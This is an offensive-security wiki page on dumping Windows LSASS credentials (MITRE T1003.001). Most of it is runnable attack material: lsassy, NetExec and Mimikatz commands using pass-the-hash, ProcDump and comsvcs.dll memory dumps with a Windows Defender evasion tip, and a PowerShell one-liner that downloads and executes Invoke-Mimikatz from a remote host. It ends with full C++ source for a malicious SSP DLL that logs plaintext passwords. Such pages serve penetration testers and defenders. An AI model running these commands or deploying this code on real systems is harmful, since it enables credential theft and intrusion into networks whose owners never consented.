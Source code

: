 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.001
---
```


# LSASS secrets

## Theory

The Local Security Authority Subsystem Service (LSASS) is a Windows service responsible for enforcing the security policy on the system. LSASS hosts security-related services such as :

* **AuthN SSPI**: An [SSPI ](https://learn.microsoft.com/en-us/windows/win32/secauthn/sspi)API, allowing applications to use network security protocols
* **SAM**: Interface for the [SAM database](sam-and-lsa-secrets.md).
* **Vault**: Allowing to manage credentials in the [Windows Credential Manager](../../password-stores/windows-credential-manager.md).
* **Audit**: Enforced audit policy to generate audit records in the security event log.
* **Key Isolation**: Provides key process isolation to private keys and associated cryptographic operations
* **EFS**: Allow to perform some cryptographic operations for File encryption&#x20;
* **DPAPI**: [Data Protection API](dpapi-protected-secrets.md) Interface for the CryptAPI library, allowing to protect data.

{% hint style="info" %}
LSASS services are reachable trough RPC
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/lsass-rpc-shcema.png" alt=""><figcaption></figcaption></figure>

## Practice

#### Dumping LSASS Memory

LSASS operations lead to the storage of credential material in its process memory. **With administrative rights only**, this material can be harvested (either locally or remotely).

{% tabs %}
{% tab title="Lsassy" %}
[Lsassy](https://github.com/Hackndo/lsassy) (Python) can be used to remotely extract credentials, from LSASS, on multiple hosts. As of today (22/07/2020), it is the Rolls-Royce of remote lsass credential harvesting.

* several dumping methods: comsvcs.dll, [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), [Dumpert](https://github.com/outflanknl/Dumpert)
* several authentication methods: like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos)
* it can be used either as a standalone script, as a [NetExec](https://github.com/Pennyw0rth/NetExec) module or as a Python library
* it can interact with a Neo4j database to set [BloodHound](https://github.com/BloodHoundAD/BloodHound) targets as "owned"

```bash
# With pass-the-hash (NTLM)
lsassy -u $USER -H $NThash $TARGETS

# With plaintext credentials
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS

# With pass-the-ticket (Kerberos)
lsassy -k $TARGETS

# NetExec Module examples
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
netexec smb $TARGETS -k -M lsassy
netexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from lsass's process memory, or remotely to analyze a memory dump (dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example).

```bash
# (Locally) extract credentials from LSASS process memory
sekurlsa::logonpasswords

# (Remotely) analyze a memory dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

For Windows 2000, a special version of mimikatz called mimilove can be used.
{% endtab %}

{% tab title="Pypykatz" %}
[Pypykatz](https://github.com/skelsec/pypykatz) (Python) can be used remotely (i.e. offline) to analyze a memory dump (dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example).

```bash
pypykatz lsa minidump lsass.dmp
```
{% endtab %}

{% tab title="ProcDump" %}
The legitimate tool [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) (from [sysinternals](https://docs.microsoft.com/en-us/sysinternals/)) ([download](https://live.sysinternals.com/)) can be used to dump lsass's process memory.

```bash
procdump --accepteula -ma lsass lsass.dmp
```

{% hint style="info" %}
Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.
{% endhint %}

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
procdump -accepteula -ma $lsass_pid lsass.dmp
```

Once the memory dump is finished, it can be analyzed with [mimikatz](https://github.com/gentilkiwi/mimikatz) (Windows) or [pypykatz](https://github.com/skelsec/pypykatz) (Python, cross-platform).
{% endtab %}

{% tab title="comsvcs.dll" %}
The native comsvcs.dll DLL found in `C:\Windows\system32` can be used with rundll32 to dump LSASS's process memory.

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s exfiltration script [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) (PowerShell) can be used to extract credential material from LSASS's process memory.

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Recovered credential material could be either plaintext passwords or NT hash that can be used with [pass the hash](../../../../../ad/movement/ntlm/pth.md) (depending on the context).
{% endhint %}

#### Security Support Provider DLLs

We may abuse [security support providers (SSPs)](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) to injected into LSASS.exe process custom SSP DLLs. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

We can directly **inject** [**SSP DLLs**](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) **into memory**. It prevent us from editing registries but using this approach, it will not persist accross reboot like with [this method](../../../../persistence/windows/lsa/security-support-provider-dlls.md).

{% tabs %}
{% tab title="Mimikatz" %}
Mimikatz support in memory SSP DLL injection to the LSASS process.

```
mimikatz# privilege::debug
mimikatz# misc::memssp
```
{% endtab %}

{% tab title="Custom DLL" %}
Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\lsa-pwned.txt`:

{% code title="sspcustom.cpp" %}
```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSPCustom";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSPCustom <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\lsa-pwned.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Alternatively, we may modify LSA Registry keys to add new SSPs which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called :

{% content-ref url="../../../../persistence/windows/lsa/security-support-provider-dlls.md" %}
[security-support-provider-dlls.md](../../../../persistence/windows/lsa/security-support-provider-dlls.md)
{% endcontent-ref %}

## References

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" %}

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package" %}
